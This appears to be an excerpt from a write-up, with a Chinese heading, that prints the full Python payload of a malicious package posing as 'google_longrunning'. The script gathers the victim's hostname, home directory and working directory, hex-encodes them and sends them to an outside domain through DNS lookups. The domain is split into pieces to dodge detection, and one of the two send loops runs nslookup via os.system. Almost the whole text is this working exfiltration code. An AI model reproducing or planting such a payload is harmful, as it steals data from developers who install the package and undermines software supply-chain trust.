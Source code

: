 #### google_longrunning为例
```
import os
import socket
import json
import binascii
import random
import string


PACKAGE = 'google_longrunning'
SUFFIX = '.lol.0d'+'ay-se'+'curity.com';
NS = 'lol.0da'+'y-sec'+'urity.com';


def generate_id():
    return ''.join(random.choice(
        string.ascii_lowercase + string.digits) for _ in range(12)
    )

def get_hosts(data):

    data = binascii.hexlify(data.encode('utf-8'))
    data = [data[i:i+60] for i in range(0, len(data), 60)]
    data_id = generate_id()

    to_resolve = []
    for idx, chunk in enumerate(data):
        to_resolve.append(
            'v2_f.{}.{}.{}.v2_e{}'.format(
                data_id, idx, chunk.decode('ascii'), SUFFIX)
            )

    return to_resolve


def try_call(func, *args):
    try:
        return func(*args)
    except:
        return 'err'


data = {
    'p' : PACKAGE,
    'h' : try_call(socket.getfqdn),
    'd' : try_call(os.path.expanduser, '~'),
    'c' : try_call(os.getcwd)
}

data = json.dumps(data)


to_resolve = get_hosts(data)
for host in to_resolve:
    try:
        socket.gethostbyname(host)
    except:
        pass

to_resolve = get_hosts(data)
for host in to_resolve:
    os.system('nslookup {} {}'.format(host, NS))
```